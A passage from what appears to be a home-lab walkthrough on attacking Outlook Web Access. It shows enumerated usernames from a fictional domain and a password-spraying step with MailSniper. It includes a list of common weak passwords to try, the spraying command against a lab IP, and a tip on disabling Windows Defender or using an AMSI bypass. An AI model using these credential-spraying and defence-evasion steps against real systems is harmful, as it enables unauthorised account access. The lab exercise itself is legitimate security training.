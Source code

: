 After allowing the tool to run though we have 9 potential usernames printed to `.\Valid-Email.txt`

```
sevenkingdoms.local\renly.baratheon
sevenkingdoms.local\stannis.baratheon
sevenkingdoms.local\petyer.baelish
sevenkingdoms.local\lord.varys
sevenkingdoms.local\maester.pycelle
sevenkingdoms.local\lysa.arryn
sevenkingdoms.local\robin.arryn
sevenkingdoms.local\robert.baratheon
sevenkingdoms.local\joffrey.baratheon
```

## Step 4: Password Spraying


{: .notice--danger} 
>**MFA!**  
>It is important to note that recovering credentials in this way will not grant access if MFA is enabled.
>
>MFA can be bypassed but requires further social engineering or misconfigurations to be present.


For this step we will again be using MailSniper, in this example we are somewhat cheating again because we already know the passwords of the users from the `config.json` file we used earlier.

However the methodoligy remails the same, we will be spraying a password across the potential usernames discovered, and hopefully the password will stick

In the real world you will want to try simple passwords such as:

```
Password1
Password123
Password123!
Spring2025!
Spring2025
Football
Footballteamname123
```

In this instance we will be using a know password from the `config.json` file.

```
iamthekingoftheworld
```

{: .notice--warning} 
>**Real-Time Protection**  
>To run the password spraying element of `mailsniper` i had to disable the Real-Time Protection element of Windows Defender, An AMSI bypass could be used on the local system to prevent this, but seeing as its your own machine a temporary pause is quicker.

```powershell
Invoke-PasswordSprayOWA -UserList .\Valid-Email.txt -ExchHostname 192.168.56.21 -Password 'iamthekingoftheworld' -Outfile Creds.txt
```
